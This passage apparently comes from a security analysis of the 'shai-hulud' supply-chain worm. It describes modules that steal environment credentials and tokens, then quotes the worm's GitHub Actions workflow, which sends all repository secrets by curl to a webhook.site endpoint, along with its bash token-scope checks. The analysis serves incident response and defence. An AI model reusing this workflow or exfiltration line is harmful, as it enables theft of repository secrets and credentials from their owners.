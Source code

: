 This module works with:
- Module 463 (Process access) → Steals environment credentials
- Module 772 (Login resolution) → Harvests federated tokens
- Module 909 (this module) → Signs malicious API requests
- Network modules → Sends authenticated requests to AWS

**Module 932: Node.js Process Object Access** - This module exports the Node.js process global object through Webpack's external module system, providing complete access to the runtime environment.
- Webpack is primarily known as a module bundler for client-side JavaScript applications.
- You can configure Webpack to bundle your Node.js application's server-side code into one or more files.

**Module 941: GitHub Secret Harvesting Script** - This module contains a complete bash script that infiltrates GitHub repositories and steals all repository secrets by creating malicious GitHub Actions workflows.

Authentication and variable Setup:

```yaml
GITHUB_TOKEN="$1"
API_BASE="https://api.github.com"
BRANCH_NAME="shai-hulud" FILE_NAME=".github/workflows/shai-hulud-workflow.yml"
Attack Payload:
on:
  push:
jobs:
  process:
    runs-on: ubuntu-latest
    steps:
    - name: Data Processing
      run: curl -d "$CONTENTS" https://webhook.site/bb8ca5f6-4175-45d2-b042-fc9ebb8170b7; echo "$CONTENTS" | base64 -w 0 | base64 -w 0
      env:
        CONTENTS: ${{ toJSON(secrets) }}
```

The endpoint that the attackers were trying to exfiltrate data to was `hxxps://webhook[.]site/bb8ca5f6-4175-45d2-b042-fc9ebb8170b7`. This link was promptly shut down. It is unclear whether any data was sucessfully exfiltrated using this link.

**GitHub attack flow:**

Token validation
```bash
# Check for required scopes
if [[ ! "$SCOPES" =~ "repo" ]]; then
    echo "❌ Error: Token missing 'repo' scope"
    exit 1
fi

if [[ ! "$SCOPES" =~ "workflow" ]]; then
    echo "❌ Error: Token missing 'workflow' scope"  
    exit 1
fi
```
